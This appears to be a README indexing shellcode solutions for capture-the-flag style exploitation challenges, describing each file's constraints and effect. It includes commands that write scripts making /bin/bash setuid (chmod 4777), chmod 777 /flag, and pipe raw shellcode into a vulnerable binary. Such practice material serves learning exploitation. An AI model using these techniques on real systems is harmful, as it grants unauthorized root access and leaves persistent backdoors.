 ## Shellcodes

1. shellcode.105-59.s

    - avoid 0x48 in shellcode
    - `setuid` + `execve`

2. shellcode.59.s

    - if you cannot use syscall, sysenter, int
    - `execve("/bin//sh", ["/bin//sh", "-p", NULL], NULL)`

3. shellcode.2-0-1-60.s

    - open,read,write /flag

4. shellcode.90-60.s

    - chmod 777 /flag

5. shellcode.2-0-2-1.s

    - if u cannot use 0,1,2 file descriptors

6. shellcode.90.s
    
    - need to create symbolic link called "f"
    - 13 bytes long shellcode that helps u to read flag
    - don't worry if it shows u segfault error it still works

7. shellcode.59(2).s
    
    - echo -ne "#!/bin/bash -p\n/bin/bash -p" > f
    - 13 bytes long shellcode
    - (cat shellcode-raw;cat) | ./vuln

8. shellcode.105-59(2).s

    - echo -ne "#!/bin/bash\n/bin/bash" > f
    - 10 int3 instructions overwrite my shellcode after 10 bytes
    - gcc -nostdlib -static -z execstack shellcode.105-59(2).s -o shellcode
    - objcopy --dump-section .text=shellcode-raw shellcode
    - (cat shellcode-raw;cat) | ./vuln

9. shellcode.59(3).s

    - echo -ne "#!/bin/bash\nchmod 4777 /bin/bash" > f
    - all bytes are unique
    - 14 bytes long

10. shellcode.59(4).s

    - echo -ne "#!/bin/bash\nchmod 4777 /bin/bash" > f
    - 12 bytes long